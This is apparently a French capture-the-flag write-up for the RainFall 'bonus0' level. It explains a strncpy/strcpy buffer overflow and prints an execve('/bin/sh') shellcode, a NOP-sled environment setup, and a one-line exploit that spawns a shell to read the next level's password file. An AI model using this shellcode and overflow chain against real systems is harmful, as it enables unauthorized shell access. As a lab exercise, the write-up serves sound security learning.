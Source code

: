 # BONUS0

La fonction `pp()`, fait deux appels à la fonction `p()` qui lit 4096 caractère sur stdin, puis fait un `strncpy(dest, string_read, 20)`.
On ne peut donc écrire que 20 caractères par appels à la fonction `p()`.
La fonction `pp()` va ensuite faire un strcpy de la premiere chaine.


short shellcode (25)
```
\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

```
bonus0@RainFall:~$ env -i shellcode=$(python -c 'print("\x90" *100 + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")')  gdb bonus0

```

0xbfffffa0


( python -c 'print("A" * 20)' ; python -c 'print("B" * 9 + "\xc5\xff\xff\xbf" + "B" * 7)' ; echo 'cat /home/user/bonus1/.pass' ) | env -i shellcode=$(python -c 'print("\x90" * 100 + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")') ./bonus0



